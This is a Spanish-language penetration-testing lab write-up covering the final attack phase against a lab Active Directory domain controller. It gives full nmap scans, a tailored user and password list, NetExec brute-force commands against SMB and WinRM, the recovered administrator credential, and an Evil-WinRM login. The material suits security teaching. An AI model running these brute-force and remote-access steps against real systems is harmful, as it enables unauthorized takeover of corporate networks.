



# Explotación del controlador de dominio DC01

## Contexto

Tras comprometer el servidor Ubuntu y realizar el pivoting mediante Ligolo, el atacante obtiene conectividad con la red interna `10.10.10.0/24`, donde se encuentra desplegado el controlador de dominio de Active Directory.

El objetivo de esta fase consiste en identificar los servicios expuestos, enumerar el dominio, realizar un ataque de fuerza bruta controlado sobre los servicios de autenticación y obtener acceso administrativo al controlador de dominio mediante WinRM.

---

# 1. Reconocimiento del controlador de dominio

El primer paso consiste en identificar todos los puertos abiertos.

```bash
sudo nmap -p- \
-sS \
--min-rate 5000 \
--open \
-vvv \
-n \
-Pn \
-T4 \
--max-retries 1 \
10.10.10.5 \
-oG allPorts
```

Una vez finalizado el escaneo se extraen automáticamente los puertos descubiertos.

```bash
extractPorts allPorts
```

Resultado:

```text
53
88
135
139
389
445
464
593
3268
5985
9389
47001
49152
49153
49154
49155
49157
49158
49159
49164
49168
49177
49183
```

A continuación se ejecuta un escaneo más detallado sobre dichos servicios.

```bash
nmap -sCV \
-p53,88,135,139,389,445,464,593,3268,5985,9389,47001,49152,49153,49154,49155,49157,49158,49159,49164,49168,49177,49183 \
10.10.10.5
```

<p align="center">

</p>

El análisis permite identificar claramente que el sistema corresponde a un controlador de dominio Windows Server 2012 R2.

Entre la información obtenida destacan:

- Nombre del equipo:
  ```text
  DC01
  ```

- Dominio:

  ```text
  corp.local
  ```

- FQDN:

  ```text
  DC01.corp.local
  ```

Asimismo, los puertos abiertos confirman la presencia de los principales servicios de Active Directory:

| Puerto | Servicio |
|---------|----------|
|53|DNS|
|88|Kerberos|
|389|LDAP|
|445|SMB|
|3268|Global Catalog|
|5985|WinRM|
|9389|Active Directory Web Services|

Esta información será utilizada durante las siguientes fases de enumeración y autenticación.

---

# 2. Preparación de un diccionario reducido

Aunque tanto el usuario como la contraseña del DC utilizada en el laboratorio se encuentra incluida en la wordlist **rockyou.txt**, ésta contiene más de catorce millones de entradas, lo que incrementa innecesariamente el tiempo de ejecución de la práctica.

```bash
grep -RnxF 'Administrador' /usr/share/wordlists/rockyou.txt # 1060995:Administrador
grep -RnxF 'Admin123*' /usr/share/wordlists/rockyou.txt # 11436212:Admin123*
```

Con fines exclusivamente didácticos se crea un pequeño diccionario adaptado al laboratorio.

## Usuarios

```text
dev
Administrador
Administrator
admin
system_admin
```

## Contraseñas

```text
Password123
dev123
Admin123
Admin123*
administrator
admin123
P@ssw0rd
P@ssw0rd123
```

Este enfoque permite reducir considerablemente el tiempo necesario para demostrar la técnica de fuerza bruta sin alterar el funcionamiento del laboratorio.

---

# 3. Ataque de fuerza bruta sobre SMB

El primer servicio evaluado es SMB.

```bash
netexec smb \
10.10.10.5 \
-d CORP \
-u users_lab.txt \
-p passwords_lab.txt
```

Durante el proceso se prueban todas las combinaciones usuario-contraseña hasta localizar unas credenciales válidas.

Finalmente se obtiene:

```text
CORP\Administrador:Admin123*
```

con privilegios administrativos sobre el controlador de dominio.

<p align="center">

</p>

La autenticación correcta aparece identificada por NetExec mediante:

```text
(Pwn3d!)
```

lo que indica que el usuario posee privilegios suficientes para la administración remota del sistema.

---

# 4. Validación mediante WinRM

Una vez identificadas las credenciales, se comprueba que el servicio WinRM también acepta la autenticación.

```bash
netexec winrm \
10.10.10.5 \
-d CORP \
-u users_lab.txt \
-p passwords_lab.txt
```

El resultado confirma nuevamente que las credenciales son válidas.

```text
CORP\Administrador:Admin123*
```

---

# 5. Acceso remoto al controlador de dominio

Con las credenciales obtenidas se establece una sesión remota mediante Evil-WinRM.

```bash
evil-winrm \
-i 10.10.10.5 \
-u Administrador \
-p 'Admin123*'
```

Tras la autenticación se obtiene una consola PowerShell interactiva sobre el controlador de dominio.

<p align="center">

</p>

Se verifica el acceso mediante:

```powershell
whoami
hostname
```

obteniéndose:

```text
corp\Administrador

DC01
```

Lo anterior confirma que el atacante ha conseguido acceso administrativo al controlador de dominio.

---

# Conclusiones

En esta fase se ha completado el compromiso del controlador de dominio siguiendo una cadena lógica de ataque:

1. Enumeración de la red interna.
2. Identificación del controlador de dominio.
3. Descubrimiento del nombre del dominio mediante SMB.
4. Ataque de fuerza bruta controlado sobre SMB y WinRM.
5. Obtención de credenciales administrativas.
6. Acceso remoto mediante Evil-WinRM.
7. Compromiso completo del controlador de dominio.

Con este último paso finaliza la cadena de ataque diseñada para el laboratorio, alcanzando el objetivo de comprometer la infraestructura Active Directory a partir del acceso inicial obtenido sobre el servidor web expuesto.